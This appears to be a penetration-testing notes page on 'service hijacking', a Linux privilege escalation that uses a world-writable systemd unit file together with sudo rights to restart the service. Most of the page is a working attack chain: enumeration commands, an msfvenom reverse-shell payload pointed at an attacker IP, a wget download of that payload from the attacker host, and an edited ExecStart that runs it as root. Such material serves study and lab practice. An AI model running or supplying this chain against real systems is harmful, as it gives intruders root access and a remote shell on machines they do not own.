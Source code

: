 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Service Hijacking

Service hijacking is a privilege escalation technique that targets misconfigured or weakly protected systemd service units. When a low-privileged user is **allowed to reload or restart a service running as** `root`, and **has control over the unit file or any executable referenced by it**, arbitrary code execution as `root` becomes possible.&#x20;

This scenario commonly arises when service unit files or scripts are world-writable or owned by the user but executed with elevated privileges. Hijacking a service involves modifying either the service configuration or its executable to trigger payload execution during a `systemctl` restart.

```bash
# Check user's permissions
$ sudo -l

User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /bin/systemctl restart backup.service
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) !/bin/bash, !/bin/sh, !/bin/su, !/usr/bin/sudo

# Check the service's status and the service file path
$ systemctl status backup.service

○ backup.service - Backup Service
     Loaded: loaded (/etc/systemd/system/backup.service; enabled; preset: enabled)
     Active: inactive (dead)
     
# Check the service file's permissions
$ ls -la /etc/systemd/system/backup.service
-rw-rw-r-- 1 x7331 x7331 193 Apr 14 17:53 /etc/systemd/system/backup.service

# Review the contents of the file
$ cat /etc/systemd/system/backup.service

[Unit]
Description=Backup Service
<SNIP>

[Service]
Type=simple
ExecStart=/usr/local/bin/backup.sh # This is not writable
User=root
Group=root
<SNIP>
```

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload targeting 64-bit Linux on the attacking host
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=80 -f elf -o revshell.elf
```
{% endcode %}

```bash
# Download the payload to the target machine
$ wget http://192.168.45.170/revshell.elf

# Make the payload executable
$ chmod +x revshell.elf

# Modify the service unit with malicious ExecStart
x7331@kali:~$ cat /etc/systemd/system/backup.service

<SNIP>
[Service]
Type=simple
#ExecStart=/usr/local/bin/backup.sh
ExecStart=/home/x7331/revshell.elf
User=root
Group=root
<SNIP>

# Reload systemd configuration to apply the changes
$ sudo /bin/systemctl daemon-reload

# Restart the modified service, which now runs the reverse shell payload
$ sudo /bin/systemctl restart backup.service
```
